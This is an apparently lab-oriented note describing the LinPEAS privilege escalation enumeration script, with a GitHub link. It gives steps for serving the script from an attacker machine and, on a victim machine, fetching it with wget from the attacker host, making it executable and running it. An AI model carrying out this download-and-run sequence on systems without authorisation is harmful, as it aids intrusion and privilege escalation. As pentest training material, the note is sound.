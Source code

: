 linpeas tool Used For :
 * privillege Escalation Tactics 
 * Automated Vulnerability Discovery 
 * Created by Caelos Polop
 * For Linux/unix/macOS System 
Functionality of LinPEAS :
 * Streamlines Scanning Processes
 * Misconifiguration & Vulnerabilities
 * Priorities Secuirty Threats 
 * Deatailed Vulnerability Reports 
 
github link : https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

steps : Attacker machine 
 1. go to location  where your linpeas folder present 
 2. run http server 
 	command : sudo python3 -m http.server 
 victim machine 
  1. check present directory 
  	command : pwd
  2. move to tmp directory 
  	command : cd tmp
  3. run command that  download linpeas file attacker machine
  	command : wget http://tun0:port/linpeas.sh 
  4. check the file permission change to excutable file 
  	commannd : chmod +x linpeas.sh
  5. run file 
  	command : ./linpeas.sh
   
